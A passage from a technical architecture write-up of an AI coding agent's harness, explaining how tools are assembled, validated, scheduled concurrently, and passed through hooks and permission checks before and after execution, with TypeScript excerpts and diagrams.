    F -->|Yes| G[Hide REPL_ONLY_TOOLS]
    F -->|No| H[getTools result]
    C --> I[assembleToolPool with MCP tools]
    G --> I
    H --> I
    I --> J[Sort + dedup by name]
    J --> K[Final tool pool]
```

`assembleToolPool()` combines built-in tools with MCP tools, sorts each partition alphabetically by name, and deduplicates by name with built-in tools taking precedence. The sort order is critical for prompt-cache stability:

```typescript
// src/tools.ts:L362-L367
const byName = (a: Tool, b: Tool) => a.name.localeCompare(b.name)
return uniqBy(
  [...builtInTools].sort(byName).concat(allowedMcpTools.sort(byName)),
  'name',
)
```

Built-in tools are kept as a contiguous prefix because the server's `claude_code_system_cache_policy` places a global cache breakpoint after the last prefix-matched built-in tool. Interleaving MCP tools into the built-in sort order would invalidate downstream cache keys whenever an MCP tool sorts between existing built-ins. The `uniqBy('name')` call ensures that if an MCP tool has the same name as a built-in tool, the built-in tool wins (because it appears first in the concatenated array).

### The tool_use input validation pipeline

When the model emits a `tool_use` block, `runToolUse()` in `src/services/tools/toolExecution.ts` validates it through a multi-step pipeline that separates fast computational checks from slower inferential checks:

```typescript
// src/services/tools/toolExecution.ts:L614-L631
const parsedInput = tool.inputSchema.safeParse(input)
if (!parsedInput.success) {
  let errorContent = formatZodValidationError(tool.name, parsedInput.error)

  const schemaHint = buildSchemaNotSentHint(
    tool,
    toolUseContext.messages,
    toolUseContext.options.tools,
  )
  if (schemaHint) {
    logEvent('tengu_deferred_tool_schema_not_sent', {
      toolName: sanitizeToolNameForAnalytics(tool.name),
      isMcp: tool.isMcp ?? false,
    })
    errorContent += schemaHint
  }
}
```

After schema validation succeeds, the optional `validateInput()` method catches semantic errors:

```typescript
// src/services/tools/toolExecution.ts (validateInput call)
const isValidCall = await tool.validateInput?.(parsedInput.data, toolUseContext)
if (isValidCall?.result === false) {
  // Return tool-specific validation error
}
```

Schema validation (`safeParse`) catches type errors: the model sending a string where the schema expects an array, or omitting a required field. This is a computational control in Fowler's taxonomy -- deterministic, fast (microseconds), and reliable. The optional `validateInput()` method catches semantic errors: a file path that does not exist, or a command that would exceed a size limit. These are inferential controls -- they may involve filesystem checks or other I/O, are slower (milliseconds to seconds), and may fail non-deterministically (e.g., a file exists at validation time but is deleted before the tool executes).

### The tool-use alias system

Tools can define `aliases` for backwards compatibility when renamed:

```typescript
// src/Tool.ts:L371
aliases?: string[]

// src/Tool.ts:L345-L354
export function toolMatchesName(
  tool: { name: string; aliases?: string[] },
  name: string,
): boolean {
  return tool.name === name || (tool.aliases?.includes(name) ?? false)
}
```

When a tool is renamed (e.g., `KillShell` became `TaskStop`), the old name is added to `aliases` so that transcripts from older sessions still resolve correctly. The `runToolUse()` function in `toolExecution.ts` falls back to alias lookup if the tool is not found by primary name. This fallback only applies when the tool was found via alias (not the primary name), preventing a tool from being called by another tool's alias.

### The shouldDefer and alwaysLoad flags

The `shouldDefer` and `alwaysLoad` flags control whether a tool's schema appears in the initial prompt or must be loaded via `ToolSearch`:

```typescript
// src/Tool.ts:L442
readonly shouldDefer?: boolean
// src/Tool.ts:L449
readonly alwaysLoad?: boolean
```

A tool marked `shouldDefer` is not included in the initial tool pool sent to the API; the model must call `ToolSearch` to load it. A tool marked `alwaysLoad` is never deferred, even when `ToolSearch` is active. For MCP tools, `alwaysLoad` can be set via `_meta['anthropic/alwaysLoad']`. This mechanism addresses the HER's "Tool Explosion" failure mode (§6.8) by reducing the number of tool schemas in the initial prompt, which degrades the model's ability to select the correct tool.

The `searchHint` field provides a short keyword phrase that `ToolSearch` uses for keyword matching when the tool is deferred:

```typescript
// src/Tool.ts:L378
searchHint?: string
```

This is a 3-10 word description that helps the model find the tool via keyword search. The hint should prefer terms not already in the tool name (e.g., "jupyter" for `NotebookEdit`).

### The maxResultSizeChars field

The `maxResultSizeChars` field controls when tool results are persisted to disk instead of being included inline in the conversation:

```typescript
// src/Tool.ts:L456-L466
maxResultSizeChars: number
```

When a tool result exceeds this size, the result is saved to a file and the model receives a preview with the file path instead of the full content. This prevents large tool outputs (e.g., a 100KB file read) from consuming the entire context window. Tools like `FileReadTool` set this to `Infinity` because persisting would create a circular Read-file-Read loop and the tool already self-bounds via its own limits.

## Edge cases and failure modes

### The deferred tool schema mismatch

When tool search is enabled, some tools are deferred -- their schemas are not sent in the initial prompt. If the model calls a deferred tool without first loading it via `ToolSearch`, the Zod schema validation will fail because the model is guessing at parameter types (e.g., emitting a string where the schema expects an array). The `buildSchemaNotSentHint()` function in `toolExecution.ts` detects this case and appends a hint telling the model to load the tool first:

```typescript
// src/services/tools/toolExecution.ts:L578-L597
export function buildSchemaNotSentHint(
  tool: Tool,
  messages: Message[],
  tools: readonly { name: string }[],
): string | null {
  if (!isToolSearchEnabledOptimistic()) return null
  if (!isToolSearchToolAvailable(tools)) return null
  if (!isDeferredTool(tool)) return null
  const discovered = extractDiscoveredToolNames(messages)
  if (discovered.has(tool.name)) return null
  return (
    `\n\nThis tool's schema was not sent to the API — it was not in the discovered-tool set...` +
    `Load the tool first: call ${TOOL_SEARCH_TOOL_NAME} with query "select:${tool.name}", then retry this call.`
  )
}
```

This is a graceful degradation: rather than returning a generic Zod error ("expected array, got string") that does not explain the root cause, the system returns a targeted hint that tells the model exactly how to fix the problem. The hint is only appended when the tool is deferred and has not been discovered in the message history, avoiding false positives for tools that were loaded correctly.

### The backfillObservableInput guard

Some tools need to inject derived fields into their input for hooks and permission checks (e.g., expanding a relative file path to an absolute one). But these derived fields must not reach `tool.call()`, because tool results embed the original input verbatim and changing it would alter the serialized transcript and VCR fixture hashes. The `backfillObservableInput()` method runs on a shallow clone, and the `callInput` variable is carefully managed to preserve the model's original field values:

```typescript
// src/services/tools/toolExecution.ts:L783-L805
let callInput = processedInput
const backfilledClone =
  tool.backfillObservableInput &&
  typeof processedInput === 'object' &&
  processedInput !== null
    ? ({ ...processedInput } as typeof processedInput)
    : null
if (backfilledClone) {
  tool.backfillObservableInput!(backfilledClone as Record<string, unknown>)
  processedInput = backfilledClone
}
```

The backfilled clone is used for hooks and permission checks, which need the expanded file path. The original `callInput` is preserved for `tool.call()`, which needs the model's original input to produce correct result strings. If a hook or permission later returns a fresh `updatedInput`, the `callInput` converges on it -- that replacement is intentional and should reach `call()`.

### The isEnabled feature flag gate

The `isEnabled()` method is called during tool pool assembly to filter out tools that are not available in the current environment. This is more than a feature flag check: some tools are conditionally available based on the current state. For example, `ToolSearchTool` is only enabled when tool search is active, and `LSPTool` requires the `ENABLE_LSP_TOOL` environment variable. The `getTools()` function maps each tool's `isEnabled()` result and filters out disabled tools before returning the pool:

```typescript
// src/tools.ts:L325-L327
const isEnabled = allowedTools.map(_ => _.isEnabled())
return allowedTools.filter((_, i) => isEnabled[i])
```

This pattern ensures that the model never sees a tool it cannot call, preventing the "Silent Failures" failure mode described in HER §6.6, where the agent proceeds after a tool error as if it succeeded.

## Where cc diverges from the published pattern

HER Pattern 11 (Single-Purpose Tool Design) describes FileReadTool, FileEditTool, and GrepTool as examples of tools with individual permission rules. cc's implementation matches this pattern closely but extends it in several important ways:

1. **The rendering contract is richer than permission rules alone**: Each tool defines a full rendering pipeline (tool use, result, progress, error, grouped), not permission rules. The HER pattern focuses on permission gating; cc's tools are self-contained UI components that happen to also carry permission logic. This makes cc's tools more composable and testable, because the rendering logic is co-located with the business logic.

2. **The `buildTool()` helper enforces fail-closed defaults**: The HER pattern does not address what happens when a tool omits a safety-critical method. cc's `TOOL_DEFAULTS` ensure that `isConcurrencySafe`, `isReadOnly`, and `toAutoClassifierInput` always have safe default values, even if the tool author forgets to implement them. This is a structural guarantee that the HER pattern leaves to convention.

3. **The `shouldDefer`/`alwaysLoad` system addresses Tool Explosion directly**: The HER's Tool Explosion failure mode warns that too many tools degrade selection accuracy. cc's deferred tool system is a concrete implementation of the HER's "progressive tool expansion" recommendation, with `alwaysLoad` as an escape hatch for tools the model must see on turn 1. The `searchHint` field further helps the model find deferred tools by keyword.

4. **Fowler's computational-vs-inferential taxonomy applies at the method level**: The `validateInput()` method is a computational control (deterministic, fast), while `checkPermissions()` may invoke classifiers or human judgment (inferential control). cc explicitly separates these in the tool interface, whereas Fowler's taxonomy treats them as architectural categories that apply at the system level. By making the distinction at the method level, cc ensures that computational checks run first (cheap) and inferential checks run only when needed (expensive).

5. **The `maxResultSizeChars` field implements observation masking**: The HER's observation masking strategy (52% cost reduction per JetBrains Research) is partially implemented through `maxResultSizeChars`, which persists large tool results to disk and provides the model with a preview instead. This is a form of selective redaction that reduces token cost while preserving decision-relevant information.

## Developer takeaways for building a long-running agent

1. **Parameterize your tool type over Input, Output, and Progress.** A single `Tool` type with three type parameters captures the full lifecycle of a tool invocation. The Input type drives validation, the Output type drives serialization, and the Progress type drives streaming. Conflating these into a single `any` loses type safety and makes the rendering contract impossible to implement correctly.

2. **Provide fail-closed defaults via a helper function.** The `buildTool()` pattern ensures that every tool has sensible defaults for safety-critical methods. Without this, a tool author who forgets to implement `isConcurrencySafe()` would default to `true`, allowing unsafe concurrent execution. Fail-closed defaults are the correct choice for any method that affects security or correctness.

3. **Separate schema validation from semantic validation.** Zod's `safeParse()` is fast and deterministic -- a computational control. The optional `validateInput()` method may involve I/O or complex logic -- an inferential control. Keeping these separate allows the system to reject malformed inputs cheaply before investing in expensive semantic checks. It also makes the validation pipeline testable at two different levels of granularity.

4. **Sort your tool pool for cache stability.** The `assembleToolPool()` function sorts built-in and MCP tools alphabetically and keeps built-ins as a contiguous prefix. This ordering ensures that adding or removing an MCP tool does not invalidate the prompt cache for the built-in tool schemas. Cache stability is a production concern that is easy to overlook during development but has significant cost implications at scale.

5. **Support tool aliases for backwards compatibility.** When you rename a tool, add the old name to `aliases` so that existing transcripts and saved sessions continue to resolve. The `toolMatchesName()` function checks both primary name and aliases, and the `runToolUse()` fallback path looks up aliases when the primary name is not found. Without aliases, renaming a tool breaks all historical transcripts.

6. **Guard against the deferred-tool schema mismatch.** When tools are loaded on demand, the model may call them without having seen their schemas. Detect this case in the input validation pipeline and return a hint telling the model how to load the tool, rather than a generic Zod error that does not explain the root cause. The `buildSchemaNotSentHint()` function is a model for how to implement this gracefully.

7. **Separate observable input from call input.** Derived fields injected for hooks and permission checks (e.g., expanded file paths) must not reach the tool's `call()` method, because tool results embed the original input verbatim. Use a shallow clone for backfilling and carefully track which version of the input is passed where. The `backfillObservableInput()` / `callInput` pattern ensures that the model sees its own field names in the results while hooks see expanded versions.
# Tool Dispatch Pipeline

## Overview

When the model emits a batch of `tool_use` blocks, cc must execute them safely, efficiently, and with full observability. The dispatch pipeline orchestrates this: it partitions tool calls into concurrent-safe and serial batches, streams results back to the query loop as they complete, enforces permission checks and hook lifecycle events at every stage, and handles error propagation across parallel tool executions. This pipeline is the critical path between the model's intent and the harness's execution, and its correctness directly determines whether the agent can be trusted to operate on the user's behalf.

This chapter traces the full dispatch flow from `runTools()` in `src/services/tools/toolOrchestration.ts` (189 lines) through `runToolUse()` in `src/services/tools/toolExecution.ts` (1745 lines), the hook lifecycle in `src/services/tools/toolHooks.ts` (650 lines), the streaming executor in `src/services/tools/StreamingToolExecutor.ts` (531 lines), and the permission decision hook in `src/hooks/useCanUseTool.tsx` (203 lines). We examine how cc implements the HER's Deterministic Lifecycle Hooks pattern (Pattern 12) and where it addresses the Silent Failures (6.6) and Tool Explosion (6.8) failure modes. The dispatch pipeline is the largest and most complex subsystem in cc's tool architecture, and understanding it is essential for understanding how the agent interacts with the world.

## Data structures and contracts

### The MessageUpdate type

The dispatch pipeline communicates results upward through the `MessageUpdate` type, which carries either a message or a context modification:

```typescript
// src/services/tools/toolOrchestration.ts:L14-L17
export type MessageUpdate = {
  message?: Message
  newContext: ToolUseContext
}
```

The `newContext` field is always present because tool execution can modify the context (e.g., a `FileEditTool` call updates the file history state, a `SendMessageTool` call registers an agent name). The `message` field is optional because some yields carry only context updates. This design ensures that the query loop always has the latest context state, even when no messages are produced.

The lower-level `MessageUpdateLazy` type used inside `toolExecution.ts` carries context modifiers separately, allowing the orchestration layer to decide when to apply them:

```typescript
// src/services/tools/toolExecution.ts:L264-L270
export type MessageUpdateLazy<M extends Message = Message> = {
  message: M
  contextModifier?: {
    toolUseID: string
    modifyContext: (context: ToolUseContext) => ToolUseContext
  }
}
```

The `contextModifier` field is optional because not every tool execution modifies context. When present, it captures both the tool use ID and a function that transforms the current context into the updated context. This lazy design allows the orchestration layer to queue context modifiers for concurrent batches and apply them atomically after the batch completes, preventing race conditions.

### The TrackedTool internal type

The `StreamingToolExecutor` tracks each tool invocation internally with a `TrackedTool` type that captures the full lifecycle of a single tool execution:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L21-L32
type TrackedTool = {
  id: string
  block: ToolUseBlock
  assistantMessage: AssistantMessage
  status: ToolStatus
  isConcurrencySafe: boolean
  promise?: Promise<void>
  results?: Message[]
  // Progress messages are stored separately and yielded immediately
  pendingProgress: Message[]
  contextModifiers?: Array<(context: ToolUseContext) => ToolUseContext>
}
```

The `status` field progresses through four states defined by `ToolStatus`:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L19
type ToolStatus = 'queued' | 'executing' | 'completed' | 'yielded'
```

The `pendingProgress` array holds progress messages that are yielded immediately to the query loop, while `results` holds the final messages that are yielded in order once the tool completes. This separation ensures that the user sees progress in real time while maintaining correct ordering for final results.

### The Batch partition type

The orchestration layer partitions tool calls into batches based on their concurrency safety:

```typescript
// src/services/tools/toolOrchestration.ts:L84
type Batch = { isConcurrencySafe: boolean; blocks: ToolUseBlock[] }
```

Each batch is either a single non-concurrency-safe tool (which must run alone with exclusive access to the context) or a group of consecutive concurrency-safe tools (which can run in parallel without interfering with each other). The partition is computed by `partitionToolCalls()`, which walks the tool_use list and groups adjacent concurrency-safe tools into the same batch:

```typescript
// src/services/tools/toolOrchestration.ts:L91-L116
function partitionToolCalls(
  toolUseMessages: ToolUseBlock[],
  toolUseContext: ToolUseContext,
): Batch[] {
  return toolUseMessages.reduce((acc: Batch[], toolUse) => {
    const tool = findToolByName(toolUseContext.options.tools, toolUse.name)
    const parsedInput = tool?.inputSchema.safeParse(toolUse.input)
    const isConcurrencySafe = parsedInput?.success
      ? (() => {
          try {
            return Boolean(tool?.isConcurrencySafe(parsedInput.data))
          } catch {
            // If isConcurrencySafe throws (e.g., due to shell-quote parse failure),
            // treat as not concurrency-safe to be conservative
            return false
          }
        })()
      : false
    if (isConcurrencySafe && acc[acc.length - 1]?.isConcurrencySafe) {
      acc[acc.length - 1]!.blocks.push(toolUse)
    } else {
      acc.push({ isConcurrencySafe, blocks: [toolUse] })
    }
    return acc
  }, [])
}
```

If `isConcurrencySafe` throws (e.g., due to shell-quote parse failure), the tool is treated as not concurrency-safe. This is a conservative default: it is safer to serialize a tool that could have run in parallel than to parallelize a tool that should have been serialized. The same tool can be concurrency-safe for some inputs and not for others; for example, `BashTool` with `ls` is concurrency-safe, but `BashTool` with `rm` is not.

### The PostToolUseHooksResult type

Post-tool-use hooks yield a discriminated union of result types that allows hooks to either inject messages into the conversation or modify the tool's output:

```typescript
// src/services/tools/toolHooks.ts:L35-L37
export type PostToolUseHooksResult<Output> =
  | MessageUpdateLazy<AttachmentMessage | ProgressMessage<HookProgress>>
  | { updatedMCPToolOutput: Output }
```

The `updatedMCPToolOutput` variant is used by hooks that post-process the output of MCP tools. For example, a hook might redact sensitive information from an MCP tool's response before it reaches the model. This is only available for MCP tools because built-in tools control their own output format.

## Control flow

### The orchestration partition-and-execute loop

The top-level dispatch entry point is `runTools()` in `toolOrchestration.ts`. It receives the model's tool_use blocks, partitions them into batches, and executes each batch according to its concurrency safety:

```mermaid
flowchart TD
    A[runTools called with tool_use blocks] --> B[partitionToolCalls - split into batches]
    B --> C{Is batch concurrency-safe?}
    C -->|Yes| D[runToolsConcurrently - parallel execution via all combinator]
    C -->|No| E[runToolsSerially - sequential execution]
    D --> F[Queue context modifiers, yield messages immediately]
    E --> G[Apply context modifiers immediately, yield messages]
    F --> H{More batches?}
    G --> H
    H -->|Yes| C
    H -->|No| I[Return]
```

The key design decision is that context modifiers from concurrent batches are queued and applied only after the entire batch completes. This prevents a race condition where one tool's context modification affects another tool's execution mid-batch. For serial batches, context modifiers are applied immediately after each tool completes, because there is no concurrency concern and the next tool in the series should see the updated context.

The `runToolsConcurrently()` function uses the `all()` combinator from `src/utils/generators.ts` to interleave the output of multiple concurrent tool executions into a single async generator. The concurrency is capped by `getMaxToolUseConcurrency()`, which reads from the `CLAUDE_CODE_MAX_TOOL_USE_CONCURRENCY` environment variable with a default of 10.

An important subtlety of the concurrent path is how context modifiers are handled. Each concurrent tool may produce a context modifier (e.g., `FileEditTool` updates the file history state). These modifiers are queued in `queuedContextModifiers` during the batch and applied after the entire batch completes. This prevents a race condition where tool A's context modification affects tool B's execution mid-batch:

```typescript
// src/services/tools/toolOrchestration.ts:L30-L63
if (isConcurrencySafe) {
  const queuedContextModifiers: Record<
    string,
    ((context: ToolUseContext) => ToolUseContext)[]
  > = {}
  // Run read-only batch concurrently
  for await (const update of runToolsConcurrently(
    blocks,
    assistantMessages,
    canUseTool,
    currentContext,
  )) {
    if (update.contextModifier) {
      const { toolUseID, modifyContext } = update.contextModifier
      if (!queuedContextModifiers[toolUseID]) {
        queuedContextModifiers[toolUseID] = []
      }
      queuedContextModifiers[toolUseID].push(modifyContext)
    }
    yield {
      message: update.message,
      newContext: currentContext,
    }
  }
  for (const block of blocks) {
    const modifiers = queuedContextModifiers[block.id]
    if (!modifiers) {
      continue
    }
    for (const modifier of modifiers) {
      currentContext = modifier(currentContext)
    }
  }
  yield { newContext: currentContext }
}
```

The final `yield { newContext: currentContext }` after the loop ensures that the query loop sees the updated context even if no messages were produced by the batch. This is important because the query loop uses the context to determine whether to continue iterating.

### A successful tool dispatch: the seven-stage pipeline

The `runToolUse()` function in `toolExecution.ts` is the single point of entry for executing a tool invocation. Its pipeline has seven stages that form the complete lifecycle of a tool call:

```mermaid
sequenceDiagram
    participant Model
    participant RunToolUse
    participant Schema as InputSchema
    participant PreHooks as PreToolUse Hooks
    participant Perm as canUseTool
    participant Tool as tool.call()
    participant PostHooks as PostToolUse Hooks

    Model->>RunToolUse: tool_use block
    RunToolUse->>RunToolUse: 1. Tool lookup and alias fallback
    RunToolUse->>Schema: 2. inputSchema.safeParse(input)
    Schema-->>RunToolUse: parsedInput or InputValidationError
    RunToolUse->>RunToolUse: 3. validateInput() - semantic checks
    RunToolUse->>PreHooks: 4. runPreToolUseHooks()
    PreHooks-->>RunToolUse: hookPermissionResult / preventContinuation / stop
    RunToolUse->>Perm: 5. resolveHookPermissionDecision()
    Perm-->>RunToolUse: PermissionDecision (allow/deny)
    RunToolUse->>Tool: 6. tool.call(validatedInput)
    Tool-->>RunToolUse: tool result + contextModifier
    RunToolUse->>PostHooks: 7. runPostToolUseHooks()
    PostHooks-->>RunToolUse: blockingError / additionalContext / updatedMCPToolOutput
    RunToolUse-->>Model: MessageUpdateLazy (result or error)
```

Each stage serves a distinct purpose:

1. **Tool lookup and alias fallback**: Find the tool by name in the current tool pool. If not found, check `getAllBaseTools()` for aliases so that deprecated tool names still resolve in saved sessions (`src/services/tools/toolExecution.ts:L345-L356`).

2. **Input validation**: Parse the model's input through `inputSchema.safeParse()`. If validation fails, return an `InputValidationError` with an optional schema-not-sent hint for deferred tools (`src/services/tools/toolExecution.ts:L615-L680`). The `buildSchemaNotSentHint()` function detects when a deferred tool's schema was not sent to the API, explaining why the model's typed parameters were emitted as strings and instructing the model to load the tool first via `ToolSearch`.

3. **Semantic validation**: Call the tool's optional `validateInput()` method for deeper checks (file existence, size limits, path permissions). If validation fails, return the tool-specific error message with the error code (`src/services/tools/toolExecution.ts:L683-L733`).

4. **Pre-tool-use hooks**: Run `runPreToolUseHooks()`, which executes all registered PreToolUse hooks for this tool. Hooks can deny the invocation, allow it with modifications, inject additional context, or request that continuation be prevented after the tool completes.

5. **Permission resolution**: Call `resolveHookPermissionDecision()`, which merges the hook's permission result with the general permission system's rules. If the hook allows but a deny rule exists, the deny rule wins.

6. **Tool execution**: Call `tool.call()` with the validated, permission-approved input. Capture the result, including any new messages, context modifiers, and MCP metadata.

7. **Post-tool-use hooks**: Run `runPostToolUseHooks()`, which executes all registered PostToolUse hooks. Hooks can inject additional messages, modify MCP tool output, block continuation, or report errors.

### A denied tool dispatch: early exits and error paths

The pipeline has multiple exit points that prevent the tool from executing when conditions are not met. Understanding these denial paths is critical for building trustworthy agents:

```mermaid
sequenceDiagram
    participant Model
    participant RunToolUse
    participant Lookup as Tool Lookup
    participant Schema as InputSchema
    participant PreHooks as PreToolUse Hooks
    participant Perm as Permission System

    Model->>RunToolUse: tool_use block
    RunToolUse->>Lookup: Find tool by name
    Lookup-->>RunToolUse: Not found
    RunToolUse-->>Model: tool_result with is_error=true: "No such tool available"

    Model->>RunToolUse: tool_use block (valid tool)
    RunToolUse->>Schema: safeParse(input)
    Schema-->>RunToolUse: Validation failed
    RunToolUse-->>Model: tool_result with is_error=true: "InputValidationError"

    Model->>RunToolUse: tool_use block (valid input)
    RunToolUse->>RunToolUse: validateInput() returns false
    RunToolUse-->>Model: tool_result with is_error=true: tool-specific message

    Model->>RunToolUse: tool_use block (valid validation)
    RunToolUse->>PreHooks: runPreToolUseHooks()
    PreHooks-->>RunToolUse: hookPermissionResult = deny
    RunToolUse->>Perm: resolveHookPermissionDecision()
    Perm-->>RunToolUse: decision = deny
    RunToolUse-->>Model: tool_result with denial message

    Model->>RunToolUse: tool_use block (hook allows)
    RunToolUse->>Perm: resolveHookPermissionDecision()
    Perm-->>RunToolUse: settings.json deny rule overrides hook allow
    RunToolUse-->>Model: tool_result with deny rule message
```

The first denial path is the tool-not-found case. When the tool name does not match any tool in the current pool and is not a deprecated alias, the pipeline returns a synthetic error immediately:

```typescript
// src/services/tools/toolExecution.ts:L396-L411
yield {
  message: createUserMessage({
    content: [
      {
        type: 'tool_result',
        content: `<tool_use_error>Error: No such tool available: ${toolName}</tool_use_error>`,
        is_error: true,
        tool_use_id: toolUse.id,
      },
    ],
    toolUseResult: `Error: No such tool available: ${toolName}`,
    sourceToolAssistantUUID: assistantMessage.uuid,
  }),
}
return
```

The second denial path is input validation failure. When the model generates invalid input (e.g., passing a string where an array is expected), the Zod schema parser catches the error and returns detailed validation information so the model can correct its input on retry. For deferred tools whose schema was not sent to the API, an additional hint instructs the model to load the tool first.

The third denial path is the PreToolUse hook deny. When a PreToolUse hook returns a `blockingError`, the pipeline converts it into a `hookPermissionResult` with `behavior: 'deny'`, and the tool is never executed. The model receives the hook's denial message as a `tool_result` with `is_error: true`.

The fourth and most important denial path is the permission system override. Even when a PreToolUse hook approves a tool use, the `resolveHookPermissionDecision()` function checks deny/ask rules from settings.json. A deny rule from settings.json always overrides a hook's approval. This is a defense-in-depth invariant that prevents a misconfigured hook from silently bypassing security restrictions.

### The StreamingToolExecutor lifecycle and concurrency scheduling

When the query loop uses the streaming path (the common case for interactive sessions), it creates a `StreamingToolExecutor` and feeds tool_use blocks to it as they stream in from the API. The executor manages concurrency, error propagation, and result ordering. The core scheduling logic is a state machine that determines when each queued tool can start executing:

```mermaid
stateDiagram-v2
    [*] --> Queued: addTool called
    Queued --> Executing: canExecuteTool returns true
    Queued --> Queued: canExecuteTool returns false (wait for executing tools)
    Executing --> Completed: tool finishes successfully
    Executing --> Completed: tool produces error result
    Executing --> Completed: sibling abort / user interrupt / discarded
    Completed --> Yielded: getCompletedResults yields messages
    Yielded --> [*]

    state Queued {
        [*] --> WaitingForSlot
        WaitingForSlot --> Ready: no tools executing OR all executing are concurrency-safe AND this tool is concurrency-safe
    }

    state Executing {
        [*] --> RunningCall
        RunningCall --> CollectingResults: iterating runToolUse generator
        CollectingResults --> RunningCall: more updates from generator
    }
```

The `canExecuteTool()` method enforces the concurrency rule: a tool can execute if no tools are currently executing, or if the tool is concurrency-safe and all currently executing tools are also concurrency-safe:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L129-L135
private canExecuteTool(isConcurrencySafe: boolean): boolean {
  const executingTools = this.tools.filter(t => t.status === 'executing')
  return (
    executingTools.length === 0 ||
    (isConcurrencySafe && executingTools.every(t => t.isConcurrencySafe))
  )
}
```

This means a non-concurrency-safe tool must wait for all executing tools to complete before it can start. A concurrency-safe tool can start if all currently executing tools are also concurrency-safe. This ensures that write operations (non-concurrency-safe) never run in parallel with each other or with read operations that might see inconsistent state.

The `processQueue()` method iterates through the tools array and starts each eligible tool. When it encounters a non-concurrency-safe tool that cannot yet execute, it stops processing the queue because tools must maintain their original ordering:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L140-L151
private async processQueue(): Promise<void> {
  for (const tool of this.tools) {
    if (tool.status !== 'queued') continue

    if (this.canExecuteTool(tool.isConcurrencySafe)) {
      await this.executeTool(tool)
    } else {
      // Can't execute this tool yet, and since we need to maintain order for non-concurrent tools, stop here
      if (!tool.isConcurrencySafe) break
    }
  }
}
```

Concurrency-safe tools that cannot start yet (because a non-concurrency-safe tool is executing) are skipped in the loop; they will be revisited when the executing tool completes and `processQueue` is called again from the promise's `finally` handler.

### The PreToolUse hook decision flow

Pre-tool-use hooks yield a stream of typed results that the dispatch pipeline processes in sequence. Each result type represents a distinct effect that the pipeline must handle:

```typescript
// src/services/tools/toolHooks.ts:L435-L461
export async function* runPreToolUseHooks(
  // ...
): AsyncGenerator<
  | { type: 'message'; message: MessageUpdateLazy<...> }
  | { type: 'hookPermissionResult'; hookPermissionResult: PermissionResult }
  | { type: 'hookUpdatedInput'; updatedInput: Record<string, unknown> }
  | { type: 'preventContinuation'; shouldPreventContinuation: boolean }
  | { type: 'stopReason'; stopReason: string }
  | { type: 'additionalContext'; message: MessageUpdateLazy<AttachmentMessage> }
  | { type: 'stop' }
>
```

The `'stop'` type is the most drastic: it immediately ends the tool execution without running the tool's `call()` method. This is used when a hook detects an abort signal during execution, meaning the user has interrupted the agent. The `'preventContinuation'` type is softer: it allows the current tool to complete but requests that the agent stop after processing the tool result. This is used by hooks that detect a condition requiring user intervention (e.g., a security policy violation).

When a hook produces a `blockingError`, the pipeline converts it into a deny decision rather than allowing the tool to proceed:

```typescript
// src/services/tools/toolHooks.ts:L481-L498
if (result.blockingError) {
  const denialMessage = getPreToolHookBlockingMessage(
    `PreToolUse:${tool.name}`,
    result.blockingError,
  )
  yield {
    type: 'hookPermissionResult',
    hookPermissionResult: {
      behavior: 'deny',
      message: denialMessage,
      decisionReason: {
        type: 'hook',
        hookName: `PreToolUse:${tool.name}`,
        reason: denialMessage,
      },
    },
  }
}
```

This conversion ensures that every blocking error from a hook is represented as a deny decision, which the permission resolution system can then process consistently alongside other deny sources.

### The PostToolUse hook result flow and result normalization

Post-tool-use hooks can produce several effects that are processed after the tool's `call()` method returns. The hook results are yielded as a discriminated union that the dispatch pipeline processes in sequence:

- **`hook_cancelled`**: The hook was cancelled (abort signal). Yields a cancellation attachment that is visible in the transcript.
- **`hook_blocking_error`**: The hook detected an error and blocks the result. Yields a blocking error attachment that tells the model why the result was blocked.
- **`hook_stopped_continuation`**: The hook requests that the agent stop after this tool result. Yields a stop message and returns immediately from the hook generator.
- **`hook_additional_context`**: The hook injects additional context into the conversation. Yields an attachment with the context that the model will see in subsequent turns.
- **`updatedMCPToolOutput`**: The hook modifies the tool's output (MCP tools only). Replaces the tool output with the modified version before it is serialized into a `tool_result` block.

The `hook_blocking_error` type is particularly important for addressing the HER's Silent Failures (6.6) failure mode. When a PostToolUse hook detects that the tool's output is invalid or dangerous, it can block the result from reaching the model and inject an error message instead. This prevents the model from proceeding as if the tool succeeded when the output is actually incorrect.

Result normalization is the final step in the dispatch pipeline. After post-tool-use hooks have processed the result, the `streamedCheckPermissionsAndCallTool()` function collects all messages into a `Stream<MessageUpdateLazy>`. This stream combines progress events (yielded immediately as the tool runs) with final results (enqueued when the tool completes). The stream abstraction allows the query loop to consume results as an async iterable without distinguishing between progress and completion events. If the tool throws an unhandled exception, the error is captured and enqueued as a `tool_result` with `is_error: true`, ensuring the model always receives a result for every `tool_use` block it emits.

### The permission decision resolution

The `resolveHookPermissionDecision()` function in `toolHooks.ts` encapsulates the invariant that hook 'allow' does not bypass settings.json deny/ask rules. This is a critical security property that prevents a misconfigured hook from silently bypassing security restrictions:

```typescript
// src/services/tools/toolHooks.ts:L332-L433
export async function resolveHookPermissionDecision(
  hookPermissionResult: PermissionResult | undefined,
  tool: Tool,
  input: Record<string, unknown>,
  toolUseContext: ToolUseContext,
  canUseTool: CanUseToolFn,
  assistantMessage: AssistantMessage,
  toolUseID: string,
): Promise<{
  decision: PermissionDecision
  input: Record<string, unknown>
}>
```

The resolution follows a strict priority chain:

1. If the hook says 'allow', check if the tool requires user interaction or `canUseTool` is forced. If so, still call `canUseTool()`. Otherwise, check deny/ask rules -- hook allow does not bypass settings.json deny rules.
2. If the hook says 'deny', the tool is denied immediately with the hook's denial message.
3. If the hook says 'ask' or there is no hook result, fall through to the normal `canUseTool()` flow, optionally with a `forceDecision` from the hook's ask message that pre-populates the permission dialog.

This priority chain ensures that user-authored deny rules always take precedence over hook approvals. A hook that approves a tool use is expressing confidence that the tool is safe, but it cannot override the user's explicit decision to deny that tool.

### The useCanUseTool React hook

The `useCanUseTool()` hook in `src/hooks/useCanUseTool.tsx` is the interactive permission decision point. It is a React hook that returns a `CanUseToolFn` callback. When called, it creates a permission context and resolves the decision through a multi-step process:

1. **Check rule-based permissions**: `hasPermissionsToUseTool()` checks allow/deny/ask rules from settings.json and other sources.
2. **If 'allow'**: Return the allow decision with the decision reason (config, classifier, or hook).
3. **If 'deny'**: Return the deny decision, possibly recording an auto-mode denial and showing a notification.
